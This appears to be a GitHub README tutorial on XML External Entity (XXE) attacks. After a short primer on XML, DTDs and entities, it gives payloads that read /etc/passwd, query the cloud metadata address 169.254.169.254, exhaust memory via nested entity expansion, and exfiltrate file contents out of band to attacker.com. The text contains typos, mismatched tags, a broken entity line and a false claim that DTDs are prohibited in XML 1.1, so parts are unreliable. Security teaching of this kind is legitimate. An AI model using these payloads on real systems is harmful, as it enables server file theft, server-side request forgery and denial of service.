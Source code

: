 ## INFO 

Before we look at XXE, let’s look into few XML Basics which helps us to understand the main concepts behind XXE

## WHAT IS XXE 

XML stands for Extensible Markup Language, that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable,
and the current version is 1.0.

## Design Goals of XML:

1. Easy processing across the internet.
2. Clear
3. Easy to create

## Some Code of XML:

    <?xml version=”1.0” encoding=”UTF-8”?> 
    <plane>
      <year> 1977 </year>
      <make> Cessna </make>
      <mode> Skyhawk </mode>
      <color> Light Blue and White </color>
    </plane>
    
 ## XML Parser
 
 Say, you have an XML document and your application needs to process the document, 
 the part of processing the XML is called XML Parser and parser tried to parse the document which allows your application to use the parsed values.
 
 ## Document Type Definition (DTD)
 
 This is an optional part of XML but it is part of the XML standard itself. DTD provides a grammar for a class of documents, which can contain markup  declarations which define the structure for a document and can also contain Entities. [note: DTD are prohibited from version 1.1]
 
 ## Entities
 
 These can be seen as a placeholder for variables which comes in
1. Regular Entities: Text substitution, where instead of adding text we can add a reference to the entity.
2. Predefined Entities: This is part of the XML standard.
3. External Entities: A placeholder that can point to internal and external resources.

## Some Code Explane How Vulnerablity Works

    <?xml version=”1.0” encoding=”UTF-8”?>
    <!DOCTYPE Vulnerability [ #DTD Decleration
    <!ENTITY xxe “XXE”> #Entity Decleration
    ]>
    <Vulnerability>
    &xxe; #Reference to entity
    </Vulnerability>

## XML Validation

In this process, we generally validate the well-formedness where we check the syntax but not validate whether it is a valid instance of the included DTD.

Tools we can use to validate an XML file are xmllint and xmlstarlet.

## Common places to search for?

XML file upload (e.g confing files)

XML input fields

XML based Apis

XML based file (RSS,SVG,CSS)

Ms Office files (docx,xlsx,etc.)

SAML-based SSO

VoiceXML in IVR systems

Online MAP editors using KML

## ATTACK TYPE 

1. Classic XXE
2. Server Side Request Forgery
3. Denial of Service 
4. Advanced XXE 
5. Remote Code Execution

##  Classic XXE

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>
    
 ## OUTPUT 
 Hello Khan root:x:0:0:root....
 .......
 ''''''
 
This is Vulnerability
    
## Server Side Request Forgery

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "https://169.254.169.254"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>

 ## OUTPUT
 
 Hello asif 1.0
 2007-01-09
 2007-03-01
 .......
 ''''''

## Denial of Service 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lolz [<!ENTITY lol "lol><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5">
<!ENTITY lol7 "&lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8">
<tag>&lol9;</tag>


 ## Advanced XXE 
 
 1.Also Known as Blind XXE 
 2.Out of band data exfiltration 
 
 The Payload to Upload/Send
 
     <!DOCTYPE roottag [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
     %dtd;]>
     <roottag>&send;</roottag>
     
     Content of host.dtd
     <!ENTITY % all "<!ENTITY send SYSTEM "http://attacker.com/collect.php?file=%file;'>">
     %all;
 
 
